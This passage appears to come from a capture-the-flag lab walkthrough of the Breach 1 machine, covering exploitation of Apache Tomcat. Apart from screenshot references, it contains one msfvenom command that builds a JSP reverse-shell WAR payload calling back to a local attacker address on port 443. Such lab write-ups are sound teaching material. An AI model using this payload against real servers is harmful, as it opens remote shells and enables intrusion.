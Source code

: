 ![](/assets/images/breach1/screenshot-12.png)

## Exploitation
### Apache Tomcat

Then I generated a war payload to upload it to the server.

```console
root@kali:~$ msfvenom -p java/jsp_shell_reverse_tcp LHOST=192.168.110.142 LPORT=443 -f war > z.war
```

![](/assets/images/breach1/screenshot-13.png)
